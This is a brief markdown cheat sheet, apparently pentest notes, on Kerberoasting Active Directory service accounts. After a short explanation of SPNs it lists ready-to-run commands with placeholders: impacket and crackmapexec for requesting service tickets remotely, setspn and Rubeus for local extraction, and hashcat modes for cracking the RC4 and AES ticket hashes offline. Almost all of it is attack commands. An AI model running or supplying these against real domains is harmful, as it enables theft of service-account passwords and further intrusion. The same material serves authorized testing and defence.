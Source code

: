 # Kerberoasting
You have a name and a secret (password, hash, ticket, aeskey)? Kerberoasting takes advantage of how service accounts leverage Kerberos authentication with Service Principal Names (SPNs). SPN is an unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. By default, all standard domain users can request a copy of all service accounts STs (with SPN value set) encrypted with their correlating key.

Requirements:
* User with creds

## Remote
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>`

## Local
Find SPN accounts:
`setspn -T medin -Q */*`

Hashes:
`Rubeus.exe kerberoast /nowrap`
`Rubeus.exe kerberoast /ticket:<TICKETBASE64/FILE> /nowrap`

## Hashcat
RC4:
`hashcat -m 13100 <HASH> <PASSLIST> --potfile-disable`
AES128-CTS-HMAC-SHA1-96:
`hashcat -m 19600 <HASH> <PASSLIST> --potfile-disable`
AES256-CTS-HMAC-SHA1-96:
`hashcat -m 19700 <HASH> <PASSLIST> --potfile-disable`